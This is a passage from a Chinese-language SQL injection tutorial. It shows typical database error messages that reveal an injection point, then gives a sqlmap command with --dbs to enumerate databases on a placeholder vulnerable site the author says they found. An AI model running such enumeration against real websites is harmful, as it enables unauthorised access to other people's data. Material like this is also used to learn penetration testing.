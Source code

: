 不同的数据库返回的 SQL 错误或许会有不同，比如：

Microsoft SQL Server

```
Server Error in ‘/’ Application. Unclosed quotation mark before the character string ‘attack;’. 
```

描述：Description: An unhanded exception occurred during the execution of the current web request. Please review the stack trace for more information about the error where it originated in the code.

```
Exception Details: System.Data.SqlClient.SqlException: Unclosed quotation mark before the character string ‘attack;’ 
```

MySQL Errors

```
Warning: mysql_fetch_array(): supplied argument is not a valid MySQL result resource in /var/www/myawesomestore.com/buystuff.php on line 12

Error: You have an error in your SQL syntax: check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’’ at line 12 
```

Oracle Errors

```
java.sql.SQLException: ORA-00933: SQL command not properly ended at oracle.jdbc.dbaaccess.DBError.throwSqlException(DBError.java:180) at oracle.jdbc.ttc7.TTIoer.processError(TTIoer.java:208)

Error: SQLExceptionjava.sql.SQLException: ORA-01756: quoted string not properly terminated 
```

PostgreSQL Errors

```
Query failed: ERROR: unterminated quoted string at or near “‘’’” 
```

## 0x02 列出 DBMS 数据库

* * *

正如上图你看到的，我找到了一个存在 SQL 注入点的网站。现在我需要列出所有的数据库（有时这也称为枚举列数）。因为我一直在使用 SQLMAP，它会告诉我哪个存在漏洞。

运行下面的命令，参数是你找到的存在注入点的网址：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -- 
```

我们现在看到两个数据库，其中的 information_schema 是几乎所有 MySQL 数据库默认的标准数据库，所以我们的兴趣主要在 sqldummywebsite 数据库上。

这里的参数：

```
sqlmap：SQLMAP 可执行文件的名称，也可使用 python sqlmap.py 来替代
-u：目标 URL
--dbs：枚举 DBMS 数据库 
```
